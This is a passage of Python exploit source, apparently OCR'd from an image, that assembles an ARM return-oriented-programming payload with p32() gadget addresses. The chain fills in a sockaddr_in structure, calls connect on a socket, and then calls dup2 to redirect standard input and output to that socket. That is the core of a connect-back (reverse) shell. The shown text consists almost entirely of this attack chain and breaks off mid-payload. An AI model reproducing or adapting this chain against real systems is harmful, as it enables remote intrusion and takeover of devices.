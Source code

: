 ```python
        payload += p32(stack_csock_ea) # r4
        payload += p32(g_str_r0_r4_ea)
        # fix struct sockaddr_in
        payload += p32(stack_sin_ea+1) # r4
        payload += p32(g_mov_r0_0_ea)
        payload += p32(0xdeadbeef) # r7
        payload += p32(g_strb_r0_r4_ea)
        payload += p32(stack_sin_ea+8) # r4
        payload += p32(g_str_r0_r4_ea)
        payload += p32(stack_sin_ea+12) # r4
        payload += p32(g_str_r0_r4_ea)
        # prepare args in regs
        payload += p32(stack_csock_ea) # r4
        payload += p32(g_pop_r1_r2_r3_ea)
        payload += p32(stack_sin_ea-1) # r1
        payload += p32(0xffffffff) # r2
        payload += p32(stack_dummy_ea) # r3
        payload += p32(g_mov_r0_0_ea)
        payload += p32(0xdeadbeef) # r7
        payload += p32(g_add_r1_1_with_r0_cmp_ea)
        payload += p32(stack_dummy_ea) # r4
        payload += p32(g_mov_r0_r4_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(g_add_r2_1_ea)
        payload += p32(0xdeadbeef) # r4
        for _ in range(16):
            payload += p32(g_add_r2_1_ea)
            payload += p32(stack_csock_ea) # r4
        payload += p32(g_ldr_r0_r4_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(connect_ea) # connect(csock, sin, 16) 
                                   # (will pop {r3-r7, pc})
        payload += p32(0xdeadbeef) # r3
        payload += p32(0xdeadbeef) # r4
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(0xdeadbeef) # r7 
        payload += p32(g_mov_r1_0_ea)
        payload += p32(stack_csock_ea) # r4
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(g_ldr_r0_r4_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(dup2_ea) # dup2(csock, 0) (will pop {r7, pc})
        payload += p32(0xdeadbeef) # r7
        payload += p32(g_mov_r1_0_ea) # also set r0 to 0
        payload += p32(0xdeadbeef) # r4
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(g_add_r1_1_with_r0_cmp_ea)
        payload += p32(stack_csock_ea) # r4
        payload += p32(g_ldr_r0_r4_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(dup2_ea) # dup2(csock, 1) 
        payload += p32(0xdeadbeef) # r7
        payload += p32(g_mov_r1_0_ea) # also set r0 to 0
        payload += p32(0xdeadbeef) # r4
```